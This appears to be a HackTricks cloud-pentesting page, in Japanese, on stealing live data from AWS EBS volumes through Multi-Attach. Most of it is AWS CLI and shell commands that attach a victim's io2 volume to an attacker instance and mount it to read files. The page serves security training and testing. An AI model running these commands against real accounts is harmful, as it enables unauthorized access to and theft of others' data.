 # AWS - Live Data Theft via EBS Multi-Attach

{{#include ../../../../banners/hacktricks-training.md}}

## 概要
同じ Availability Zone (AZ) 内の攻撃者が制御するインスタンスに同じボリュームをアタッチして、EBS Multi-Attach を悪用しライブの io1/io2 データボリュームを読み取ります。共有ボリュームを読み取り専用でマウントすると、スナップショットを作成せずに使用中のファイルへ即時にアクセスできます。

## 要件
- 対象ボリューム: 攻撃者インスタンスと同じ Availability Zone (AZ) にあり、`--multi-attach-enabled` で作成された io1 または io2。
- 権限: 対象ボリューム/インスタンスに対する `ec2:AttachVolume`, `ec2:DescribeVolumes`, `ec2:DescribeInstances`。
- インフラ: Multi-Attach をサポートする Nitro ベースのインスタンスタイプ（C5/M5/R5 ファミリー等）。

## 注意事項
- 破損リスクを下げ、ジャーナルのリプレイを避けるため、`-o ro,noload` で読み取り専用マウントすること。
- Nitro インスタンスでは、EBS の NVMe デバイスが安定した `/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_vol...` パスを公開します（以下に補助あり）。

## Multi-Attach io2 ボリュームを準備してターゲットにアタッチする

例（`us-east-1a` に作成しターゲットにアタッチ）:
```bash
AZ=us-east-1a
# Create io2 volume with Multi-Attach enabled
VOL_ID=$(aws ec2 create-volume \
--size 10 \
--volume-type io2 \
--iops 1000 \
--availability-zone $AZ \
--multi-attach-enabled \
--tag-specifications 'ResourceType=volume,Tags=[{Key=Name,Value=multi-shared}]' \
--query 'VolumeId' --output text)

# Attach to victim instance
aws ec2 attach-volume --volume-id $VOL_ID --instance-id $VICTIM_INSTANCE --device /dev/sdf
```
被害者上で、新しいボリュームをフォーマット/マウントし、機密データを書き込む（例示）:
```bash
VOLNOHYP="vol${VOL_ID#vol-}"
DEV="/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_${VOLNOHYP}"
sudo mkfs.ext4 -F "$DEV"
sudo mkdir -p /mnt/shared
sudo mount "$DEV" /mnt/shared
echo 'secret-token-ABC123' | sudo tee /mnt/shared/secret.txt
sudo sync
```
## 同じ volume を attacker instance にアタッチ
```bash
aws ec2 attach-volume --volume-id $VOL_ID --instance-id $ATTACKER_INSTANCE --device /dev/sdf
```
## attacker上で読み取り専用にマウントしてデータを読む
```bash
VOLNOHYP="vol${VOL_ID#vol-}"
DEV="/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_${VOLNOHYP}"
sudo mkdir -p /mnt/steal
sudo mount -o ro,noload "$DEV" /mnt/steal
sudo cat /mnt/steal/secret.txt
```
期待される結果: 同じ `VOL_ID` に複数の `Attachments`（被害者と攻撃者）が表示され、攻撃者は snapshot を作成せずに被害者が書き込んだファイルを読み取ることができる.
```bash
aws ec2 describe-volumes --volume-ids $VOL_ID \
--query 'Volumes[0].Attachments[*].{InstanceId:InstanceId,State:State,Device:Device}'
```
<details>
<summary>ヘルパー: Volume ID で NVMe device path を見つける</summary>

Nitro instances では、volume id を埋め込んだ安定した by-id path を使用してください（`vol` の後のダッシュを削除）:
```bash
VOLNOHYP="vol${VOL_ID#vol-}"
ls -l /dev/disk/by-id/ | grep "$VOLNOHYP"
# -> nvme-Amazon_Elastic_Block_Store_volXXXXXXXX...
```
</details>

## 影響
- スナップショットを生成せずに、対象の EBS ボリューム上のライブデータに即時読み取りアクセスが可能になる。
- 読み書きでマウントされている場合、攻撃者は被害者のファイルシステムを改ざんできる（破損のリスク）。

{{#include ../../../../banners/hacktricks-training.md}}
